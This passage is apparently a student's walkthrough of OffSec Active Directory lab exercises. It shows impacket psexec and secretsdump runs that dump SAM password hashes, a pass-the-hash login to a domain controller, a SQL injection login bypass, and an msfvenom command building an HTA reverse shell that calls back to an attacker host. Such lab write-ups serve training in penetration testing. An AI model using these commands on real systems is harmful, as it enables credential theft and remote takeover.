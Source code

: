 Now, we can use impacket-psexec.

```
./impacket-psexec offsec.local/Allison:RockYou'!'@192.168.223.59
```

### Question 4

Let's start off by logging into Allison's account with the password obtained before and dump client01's hashes. I used impacket-secretsdump.py here, but reg save is also a possible option. I couldn't get the file to work with samdump2, though.

```
python secretsdump.py offsec.local/allison@192.168.209.59
...
Impacket v0.10.1.dev1+20230120.195338.34229464 - Copyright 2022 Fortra

Password:
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x8083a99d1e5064d3bab801bc951c6fea
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:97eb2768602642d58b10db2d26caff8a:::
[*] Dumping cached domain logon information (domain/username:hash)
...
```

And we've obtained the Administrator hash. Now we can access the dc01 machine with a "pass the hash" attack and get the flag.

```
python psexec.py "Administrator":@192.168.209.57 -hashes aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5
```

## Practice - Active Directory Attacks II

### Question 1

In this vm group, we are greeted with a login page on the 192.168.xxx.171 IP, and a quick SQL injection yields another webpage that has a url submission form.

Username & Pass: ' or '1'='1

At this URL submission form, we can try a variety of file types to attempt a reverse shell upload, but we eventually see that hta will work. This is useful because we can use msfvenom to generate reverse shell scripts. It isn't all guesswork for hta, since it is a good guess when dealing with Windows web servers.

By uploading the reverse shell generated:

```
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.146 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```
